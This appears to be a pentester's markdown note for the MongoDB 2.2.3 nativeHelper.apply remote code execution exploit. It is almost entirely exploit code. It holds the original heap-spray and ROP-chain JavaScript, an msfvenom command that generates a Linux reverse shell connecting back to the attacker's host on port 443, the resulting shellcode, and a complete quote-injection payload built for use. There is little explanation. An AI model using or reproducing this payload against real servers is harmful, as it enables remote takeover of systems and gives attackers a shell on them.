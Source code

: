 ```yaml
---
category: Uncategorized
tags: []
---
```

#### # MongoDB 2.2.3 - nativeHelper.apply Remote Code Execution

[https://www.exploit-db.com/exploits/24947](https://www.exploit-db.com/exploits/24947)

Original:
```
shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);
```

```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f js_le
```

%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd

![[rlwrap]]

```
';shellcode=unescape("%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'
```

